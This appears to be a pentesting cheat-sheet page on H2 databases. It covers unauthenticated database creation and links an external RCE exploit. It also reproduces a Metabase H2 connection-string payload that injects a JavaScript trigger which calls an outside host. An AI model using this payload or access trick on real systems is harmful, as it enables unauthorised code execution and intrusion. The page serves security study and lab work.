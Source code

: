 # H2 - Java SQL database


Official page: [[https://www.h2database.com/html/main.html|https://www.h2database.com/html/main.html]]

## Access

You can indicate a **non-existent name a of database** in order to **create a new database without valid credentials** (**unauthenticated**):

![[<../../images/image (131).png>|]]

Or if you know that for example a **mysql is running** and you know the **database name** and the **credentials** for that database, you can just access it:

![[<../../images/image (201).png>|]]

_**Trick from box Hawk of HTB.**_

## **RCE**

Having access to communicate with the H2 database check this exploit to get RCE on it: [[https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed|https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed]]

## H2 SQL Injection to RCE

In [[https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/|**this post**]] a payload is explained to get **RCE via a H2 database** abusing a **SQL Injection**.

```json
[...]
"details":
    {
        "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER IAMPWNED BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\nnew java.net.URL('https://example.com/pwn134').openConnection().getContentLength()\n$$--=x\\;",
        "advanced-options": false,
        "ssl": true
    },
[...]
```
```



